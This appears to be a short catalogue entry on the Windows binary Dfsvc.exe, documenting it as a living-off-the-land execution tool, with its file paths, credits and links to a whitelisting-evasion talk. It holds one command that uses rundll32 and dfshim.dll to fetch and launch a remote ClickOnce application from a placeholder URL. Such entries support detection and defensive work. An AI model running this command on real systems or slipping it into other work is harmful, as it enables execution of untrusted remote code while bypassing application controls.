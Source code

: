 ## Dfsvc.exe

* Functions: Execute

```
rundll32.exe dfshim.dll,ShOpenVerbApplication http://www.domain.com/application/?param1=foo
```

Acknowledgements:
* Casey Smith - @subtee

Code sample:
* 

Resources:
* https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
* https://stackoverflow.com/questions/13312273/clickonce-runtime-dfsvc-exe

Full path:
```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\Dfsvc.exe     
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\Dfsvc.exe    
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Dfsvc.exe    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Dfsvc.exe    
```

Notes:



 
